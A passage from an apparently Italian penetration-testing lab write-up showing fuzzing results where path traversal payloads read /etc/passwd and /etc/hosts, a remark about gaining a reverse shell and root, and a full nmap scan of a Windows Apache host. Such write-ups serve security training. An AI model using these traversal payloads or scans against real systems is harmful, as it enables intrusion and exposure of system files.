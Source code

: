 ```bash
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 2563, Words: 178, Lines: 69, Duration: 102ms]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 976, Words: 185, Lines: 44, Duration: 45ms]
../../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2563, Words: 178, Lines: 69, Duration: 51ms]
/../../../../../../../../../../etc/passwd [Status: 200, Size: 2563, Words: 178, Lines: 69, Duration: 54ms]
../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2563, Words: 178, Lines: 69, Duration: 44ms]
../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2563, Words: 178, Lines: 69, Duration: 44ms]
../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2563, Words: 178, Lines: 69, Duration: 61ms]
../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2563, Words: 178, Lines: 69, Duration: 50ms]
../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2563, Words: 178, Lines: 69, Duration: 47ms]
../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2563, Words: 178, Lines: 69, Duration: 43ms]
../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2563, Words: 178, Lines: 69, Duration: 42ms]
../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2563, Words: 178, Lines: 69, Duration: 53ms]
../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2563, Words: 178, Lines: 69, Duration: 73ms]
../../../../../../../../etc/passwd [Status: 200, Size: 2563, Words: 178, Lines: 69, Duration: 73ms]
../../../../../../../../../../../etc/passwd [Status: 200, Size: 2563, Words: 178, Lines: 69, Duration: 82ms]
../../../../../../etc/passwd [Status: 200, Size: 2563, Words: 178, Lines: 69, Duration: 64ms]
../../../../../../../../../etc/passwd [Status: 200, Size: 2563, Words: 178, Lines: 69, Duration: 74ms]
../../../../../../../../../../etc/passwd [Status: 200, Size: 2563, Words: 178, Lines: 69, Duration: 75ms]
../../../../../etc/passwd [Status: 200, Size: 2563, Words: 178, Lines: 69, Duration: 63ms]
```

Trovato un modo per inserire una reverse-shell e diventare root.

## 192.168.X.247 - WEB02 {pwned:local&proof}

```bash
nmap -sC -sV -O -p- 192.168.X.247
```

```bash
Nmap scan report for 192.168.204.247 (192.168.204.247)
Host is up (0.039s latency).
Not shown: 65518 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.54 ((Win64) OpenSSL/1.1.1p PHP/8.1.10)
|_http-title: RELIA - New Hire Information
|_http-server-header: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/8.1.10
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.54 ((Win64) OpenSSL/1.1.1p PHP/8.1.10)
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/8.1.10
|_http-title: RELIA - New Hire Information
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
```